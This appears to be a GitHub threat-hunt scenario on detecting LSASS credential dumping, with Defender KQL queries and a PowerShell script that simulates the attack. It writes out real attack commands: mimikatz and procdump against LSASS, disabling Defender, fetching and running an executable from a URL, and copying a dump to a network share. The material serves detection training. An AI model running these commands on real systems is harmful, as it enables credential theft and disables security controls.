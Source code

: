 # Threat Event: Credential Dumping via LSASS Access  
**Unauthorized Access to LSASS for Credential Dumping**

---

## Reason for Threat Hunt

### 🚨 Recent Cybersecurity Advisory from CISA  
CISA issued a bulletin warning of increased credential theft activity leveraging tools like **Mimikatz** and **ProcDump** that target **LSASS (Local Security Authority Subsystem Service)**.  
As a result, **management has directed a proactive threat hunt** to identify signs of credential dumping in the environment.

---

## Steps the "Bad Actor" Took – Logs and IoCs Created

1. **Downloaded credential dumping tool**
   - E.g., `mimikatz.exe`, `debug.exe`, `procdump.exe`
   - Often disguised with benign names

2. **Disabled Security Controls (optional)**
   - Example: `Set-MpPreference -DisableRealtimeMonitoring $true`

3. **Executed the Credential Dump**
   - `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"`
   - Or: `procdump.exe -ma lsass.exe lsass.dmp`

4. **Extracted the Dump**
   - File: `lsass.dmp`
   - Transferred via SMB, FTP, or outbound connection

---

## Tables Used to Detect IoCs

| Table Name              | Description                                                                 |
|------------------------|-----------------------------------------------------------------------------|
| `DeviceProcessEvents`   | Detects execution of tools and interactions with LSASS                      |
| `DeviceFileEvents`      | Monitors creation of files like `lsass.dmp`                                 |
| `DeviceImageLoadEvents` | Tracks DLLs or suspicious modules loaded by credential dumping tools       |
| `DeviceNetworkEvents`   | Flags data exfiltration via public IPs from malicious processes             |
| `DeviceRegistryEvents`  | Detects changes to security/AV-related registry keys                        |

---

## Related Queries

```kusto
// LSASS memory dump attempt using ProcDump
DeviceProcessEvents
| where ProcessCommandLine has_all ("procdump", "lsass")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine

// Execution of Mimikatz
DeviceProcessEvents
| where ProcessCommandLine has_any ("mimikatz", "sekurlsa", "logonpasswords")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine

// Detection of lsass.dmp or similar file
DeviceFileEvents
| where FileName in~ ("lsass.dmp", "lsass.zip")
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessCommandLine

// DLLs loaded by mimikatz or other malicious tools
DeviceImageLoadEvents
| where InitiatingProcessFileName has "mimikatz"
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, SHA256

// Public outbound network activity from suspicious tools
DeviceNetworkEvents
| where InitiatingProcessFileName has_any("mimikatz.exe", "procdump.exe")
| where RemoteIPType == "Public"
| project Timestamp, DeviceName, InitiatingProcessFileName, RemoteIP, RemotePort, Protocol
```

## 👤 Created By

* **Author**: Aduragbemi
* **LinkedIn**: [Aduragbemi Oladapo](https://www.linkedin.com/in/aduragbemioladapo/)
* **Date**: June 25, 2025

---

## ✅ Validated By

* **Reviewer**: *TBD*
* **Contact**: *TBD*
* **Date**: *TBD*

---
✅ PowerShell Steps to Simulate the Credential Dump Simulation

```Powershell
# Simulate download of a known credential dumping tool
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/aduragbemioo/Threat-Hunt-Scenario-Credential-Dumping-via-LSASS-Access/refs/heads/main/mimi-sim.exe" -OutFile "$env:USERPROFILE\Downloads\mimi-sim.exe"

# Simulate disabling Windows Defender (for detection/log creation only — doesn't actually succeed if Defender is enabled)
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true" | Out-Null

# Simulate credential dumping execution (e.g., mimikatz or procdump against lsass)
Start-Process -FilePath "$env:USERPROFILE\Downloads\mimi-sim.exe" -ArgumentList '"sekurlsa::logonpasswords"' -WindowStyle Hidden

# Simulate creation of LSASS dump file
New-Item -Path "$env:TEMP\lsass.dmp" -ItemType File -Force | Out-Null
Set-Content -Path "$env:TEMP\lsass.dmp" -Value "This is a simulated memory dump of LSASS."

# Simulate file exfiltration by copying to a network share or USB (fake path)
Copy-Item "$env:TEMP\lsass.dmp" -Destination "\\192.168.1.99\shared\lsass.dmp" -Force


# Clean up simulated artifacts (optional)
Start-Sleep -Seconds 5
Remove-Item "$env:TEMP\lsass.dmp" -Force
Remove-Item "$env:USERPROFILE\Downloads\mimi-sim.exe" -Force


```

## 📅 Revision History

| Version | Changes       | Date          | Modified By                |
| ------- | ------------- | ------------- | -------------------------- |
| 1.0     | Initial Draft | June 25, 2025 | Aduragbemi Oladapo |

---
